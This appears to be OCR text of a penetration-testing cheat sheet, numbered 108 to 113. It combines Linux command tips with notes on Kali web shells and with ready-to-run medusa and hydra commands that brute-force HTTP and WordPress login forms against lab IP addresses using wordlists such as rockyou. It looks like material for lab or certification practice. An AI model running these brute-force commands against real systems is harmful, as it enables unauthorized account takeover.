 


108) run a command at regular intervals with watch utility
watch -n 3 free -m           // run the free command every 3 seconds


109) execute a command only if the first one works
&& executes the command which follow only if the command which precedes it succeeds.  || does the opposite:


110) kali web shells
ls /usr/share/webshells/


111) strace -f
trace the system calls for an executable




112) medusa tool brute force
medusa -h 10.11.1.73 -n 8080 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/PHP -T 30


web form brute force
$ medusa \
  -h 127.0.0.1 \
  -u admin \
  -P /data/dict/dict.txt \
  -M web-form \
  -m FORM:"admin/test.php" \
  -m DENY-SIGNAL:"ACCESS DENIED" \
  -m FORM-DATA:"post?u=&p=&Login=Login"

113) Hydra tool


hydra [ip] [form: <url>:<form parameters>:<failure string>:Cookie]




brute force
hydra -s 8080 -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.73 http-post-form "/php/index.php:nickname=^USER^&password=^PASS^&tg=login&referer=index.php&login=login&sAuthType=Ovidentia&submit=Login:User not found or bad password" -V
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.




http brutefoce
hydra -l elliot -P dic 192.168.210.2 http-post-form "/wp-login.php:log=elliot&pwd=^PASS^:ERROR"


post login brute force
hydra 10.10.10.43 -l admin -P "/usr/share/seclists/Passwords/10k_most_common.txt" 10.10.10.10 http-post-form "/department/login.php:username=admin&password=^PASS^:invalid"


notice the colon above
